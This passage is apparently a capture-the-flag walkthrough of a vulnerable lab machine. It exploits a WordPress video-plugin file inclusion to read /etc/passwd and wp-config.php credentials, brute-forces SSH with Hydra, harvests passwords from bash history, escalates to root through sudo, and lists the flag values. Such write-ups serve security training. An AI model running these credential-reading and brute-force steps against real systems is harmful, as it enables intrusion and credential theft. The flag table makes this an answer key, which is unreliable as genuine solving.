<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head>
 <title>Index of /blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists</title>
</head>
<body>
<h1>Index of /blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists</h1>
<table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/blogblog/wp-content/plugins/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="advanced_video_embed.php">advanced_video_embed.php</a></td><td align="right">2015-10-14 13:52  </td><td align="right">24K</td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="readme.txt">readme.txt</a></td><td align="right">2015-10-14 13:52  </td><td align="right">3.1K</td><td>&nbsp;</td></tr>
</table>
<address>Apache/2.4.18 (Ubuntu) Server at 192.168.223.148 Port 12380</address>
</body></html>
```

```bash
searchsploit wordpress advanced video
```


```
Exploit Title

WordPress Plugin Advanced Video 1.0 - Local File Inclusion

Shellcodes: No Results
```

```bash
searchsploit -x php/webapps/39646.py
```



```
Exploit: WordPress Plugin Advanced Video 1.0 - Local File Inclusion
     URL: https://www.exploit-db.com/exploits/39646
    Path: /usr/share/exploitdb/exploits/php/webapps/39646.py
   Codes: N/A
Verified: True
File Type: Python script, ASCII text executable

[+] advanced-video-embed-embed-videos-or-playlists
 | Location: https://192.168.223.148:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-10-14T13:52:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://192.168.223.148:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/, status: 200
 |
 | [!] Directory listing is enabled
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://192.168.223.148:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://192.168.223.148:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/readme.txt
```

### 6.3 LFI Exploitation — Reading /etc/passwd

```bash
curl -k "https://192.168.223.148:12380/blogblog/wp-content/uploads/521855613.jpeg"
```



```
root:x:0:0:root:/root:/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```

### 6.4 LFI Exploitation — Reading wp-config.php

```bash
curl -k "https://192.168.223.148:12380/blogblog/wp-content/uploads/1275836060.jpeg"
```



```php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link https://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');
```

**Database credentials harvested:**
- DB_USER: `root`
- DB_PASSWORD: `plbkac`

---

## 7. Initial Access — SSH Brute Force

### 7.1 Username List Compilation

From all enumeration:

```bash
cat /tmp/users.txt
```

```
peter
RNunemaker
ETollefson
DSwanger
AParnell
CJoo
CCeaser
Drew
Eeth
elly
IChadwick
JBare
jess
JKanode
JLipps
kai
lsolum
lsolum2
MBassin
mel
MFrei
NATHAN
Sam
SHayslett
jamie
Taylor
zoe
```

### 7.2 SSH Brute Force with Hydra

```bash
hydra -L /tmp/users.txt -p plbkac ssh://192.168.241.148 -t 4 -V
```



```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-08 11:44:53
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:26/p:1), ~7 tries per task
[DATA] attacking ssh://192.168.241.148:22/
[ATTEMPT] target 192.168.241.148 - login "peter" - pass "plbkac" - 1 of 26 [child 0] (0/0)
...
[22][ssh] host: 192.168.241.148   login: zoe   password: plbkac
...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-08 11:45:29
```

**Valid credentials:** `zoe:plbkac`

### 7.3 SSH Login as zoe

```bash
ssh zoe@192.168.241.148
```



```
ssh zoe@192.168.241.148
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
-----------------------------------------------------------------
| Barry, don't forget to put a message here                     |
-----------------------------------------------------------------
zoe@192.168.241.148's password:
Welcome back!

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

zoe@red:~$
```

---

## 8. Privilege Escalation — Lateral Movement

### 8.1 Initial Enumeration

```bash
zoe@red:~$ sudo -l
```


```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for zoe:
Sorry, user zoe may not run sudo on red.
```

```bash
zoe@red:~$ ls -la ~
```


```
total 28
drwxr-xr-x  4 zoe  zoe  4096 Apr  8 16:03 .
drwxr-xr-x 32 root root 4096 Jun  9  2021 ..
lrwxrwxrwx  1 root root    9 May  5  2021 .bash_history → /dev/null
-rw-r--r--  1 zoe  zoe   220 Sep  1  2015 .bash_logout
-rw-r--r--  1 zoe  zoe  3771 Sep  1  2015 .bashrc
drwx------  2 zoe  zoe  4096 Apr  8 16:03 .cache
-rw-r--r--  1 zoe  zoe   675 Sep  1  2015 .profile
drwx------  2 zoe  zoe  4096 May  5  2021 .ssh
```

### 8.2 Searching for Bash History Files

```bash
zoe@red:~$ find / -name ".bash_history" -type f 2>/dev/null
```


```
/home/JKanode/.bash_history:sshpass -p thisimypassword ssh JKanode@localhost
/home/JKanode/.bash_history:sshpass -p ZQ\y\$Nv\!P ssh peter@localhost
Binary file /usr/share/php/myadmin/js/OpenLayers/theme/default/img/navigation_history.png matches
/usr/share/zsh/functions/Completion/Base/_history:local line max=$((HISTNO - 1))
```

**Credentials leaked in bash history:**
- JKanode: `thisimypassword`
- peter: `ZQ\y$Nv!P` (escaped shell characters)

### 8.3 Home Directory Enumeration

```bash
zoe@red:~$ ls /home
```



```
AParnell  CJoo  DSwanger  elly  IChadwick  JBare  JKanode  kai  lsolum  MBassin  MFrei  peter  RNunemaker
CCeaser  Drew  Eeth  ETollefson  jamie  jess  JLipps  local.txt  lsolum2  mel  NATHAN  Sam  SHayslett
```

```bash
cat /home/local.txt
```

```
1c91a0acd6305e29dd3d316c09652108
```

### 8.4 Lateral Movement to peter

```bash
zoe@red:~$ su - peter
Password: ZQ\y$Nv!P
```



```
peter@ubuntu:~$ pwd
/home/peter
peter@ubuntu:~$ id
uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

---

## 9. Root Privilege Escalation

### 9.1 Sudo Enumeration

```bash
peter@ubuntu:~$ sudo -l
```


```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter:
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```

**Critical finding:** User peter has unrestricted sudo access.

### 9.2 Root Shell Escalation

```bash
peter@ubuntu:~$ sudo su
```


```
root@ubuntu:~# whoami
root
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 10. Flag Capture

```bash
root@ubuntu:~# cd /root
root@ubuntu:~# ls
fix-wordpress.sh  flag.txt  issue  proof.txt  wordpress.sql
root@ubuntu:~# cat proof.txt
5ae1bce9ae976be976be976be9761c05
```


---

## 11. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| Local Flag | `/home/local.txt` | `1c91a0acd6305e29dd3d316c09652108` |
| Root Flag | `/root/proof.txt` | `5ae1bce9ae976be976be976be9761c05` |

---

## 12. Attack Chain Summary

```
[1] nmap -Pn -p- --min-rate 5000 192.168.223.148
        → Ports: 20,21,22,53,80,123,137,138,139,666,3306,12380

[2] nmap -sC -sV -A -Pn -p 21,22,53,80,139,666,3306,12380 192.168.223.148
        → vsftpd 2.0.8 — Anonymous FTP login allowed
        → OpenSSH 7.2p2 Ubuntu
        → Apache 2.4.18 (Ubuntu) — Port 80: 404 Not Found
        → Apache 2.4.18 (Ubuntu) — Port 12380: 404 Not Found
        → Samba smbd 4.3.9-Ubuntu
        → MySQL 5.7.12-0ubuntu1

[3] ftp 192.168.223.148 (Anonymous login)
        → FTP banner: "Harry, make sure to update the banner..."
        → get note → "Elly, make sure you update the payload information..."
        → Usernames: Harry, Elly, John

[4] nc -nv 192.168.223.148 22
        → SSH banner: "Barry, don't forget to put a message here"
        → Username: Barry

[5] curl -k https://192.168.223.148:12380/
        → Internal Index Page
        → View source: "A message from the head of our HR department, Zoe..."
        → Username: Zoe

[6] curl -k https://192.168.223.148:12380/robots.txt
        → Disallow: /admin112233/
        → Disallow: /blogblog/

[7] Browse https://192.168.223.148:12380/announcements/message.txt
        → "Abby, we need to link the folder somewhere! Hidden at the mo"

[8] Browse https://192.168.223.148:12380/admin112233/
        → XSS popup: "This could of been a BeEF-XSS hook ;)"

[9] Browse https://192.168.223.148:12380/blogblog/
        → WordPress site "INITECH Office Life"

[10] gobuster dir -u https://192.168.223.148:12380/blogblog/
        → /wp-content/, /wp-includes/, /wp-admin/

[11] smbclient -L //192.168.223.148/
        → Shares: kathy, tmp

[12] smbclient //192.168.223.148/kathy
        → backup/vsftpd.conf
        → backup/wordpress-4.tar.gz
        → kathy_stuff/todo-list.txt: "I'm making sure to backup anything important for Initech, Kathy"

[13] wpscan --url https://192.168.223.148:12380/blogblog/ --enumerate u,ap,at,dbe
        → Users: John Smith, peter, john, elly, barry, heather, garry, harry, scott, kathy, tim
        → Plugin: advanced-video-embed-embed-videos-or-playlists v1.0

[14] searchsploit wordpress advanced video
        → EDB-39646: WordPress Plugin Advanced Video 1.0 - Local File Inclusion

[15] curl -k "https://192.168.223.148:12380/blogblog/wp-content/uploads/521855613.jpeg"
        → /etc/passwd leaked via LFI
        → Users enumerated from /etc/passwd

[16] curl -k "https://192.168.223.148:12380/blogblog/wp-content/uploads/1275836060.jpeg"
        → wp-config.php leaked via LFI
        → DB_USER: root
        → DB_PASSWORD: plbkac

[17] hydra -L /tmp/users.txt -p plbkac ssh://192.168.241.148 -t 4
        → [22][ssh] host: 192.168.241.148   login: zoe   password: plbkac ✓

[18] ssh zoe@192.168.241.148
        → zoe@red shell ✓
        → cat /home/local.txt → 1c91a0acd6305e29dd3d316c09652108

[19] sudo -l (as zoe)
        → Sorry, user zoe may not run sudo on red.

[20] ls -la ~ (as zoe)
        → .bash_history → /dev/null

[21] find / -name ".bash_history" -type f 2>/dev/null
        → /home/JKanode/.bash_history
        → sshpass -p thisimypassword ssh JKanode@localhost
        → sshpass -p ZQ\y\$Nv\!P ssh peter@localhost
        → peter's password: ZQ\y$Nv!P

[22] su - peter
        → Password: ZQ\y$Nv!P
        → peter@ubuntu shell ✓

[23] sudo -l (as peter)
        → User peter may run the following commands on red:
            (ALL : ALL) ALL

[24] sudo su
        → root@ubuntu shell ✓

[25] cd /root && cat proof.txt
        → 5ae1bce9ae976be976be976be9761c05 ✓
```

---

## 13. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning and service fingerprinting |
| `ftp` | Anonymous FTP login for file enumeration |
| `nc` (netcat) | SSH banner grabbing |
| `curl` | Web enumeration and LFI exploitation |
| `gobuster` | Directory brute-forcing on web services |
| `smbclient` | SMB share enumeration and file download |
| `wpscan` | WordPress user enumeration and plugin scanning |
| `searchsploit` | Exploit database search for WordPress plugin LFI |
| `hydra` | SSH brute force attack with harvested credentials |
| `ssh` | Initial access and lateral movement |
| `find` | Searching for bash history files |
| `su` | Lateral movement from zoe to peter |
| `sudo` | Privilege escalation to root |

**Vulnerabilities Exploited:**
1. **FTP Anonymous Access** — Information disclosure (usernames)
2. **Directory Listing Enabled** — Web server misconfiguration
3. **WordPress Plugin LFI** — Advanced Video 1.0 Local File Inclusion (EDB-39646)
4. **Credential Reuse** — Database password reused for SSH
5. **Bash History Credential Leak** — Plaintext passwords in `.bash_history`
6. **Unrestricted Sudo Rights** — User peter has `(ALL : ALL) ALL`
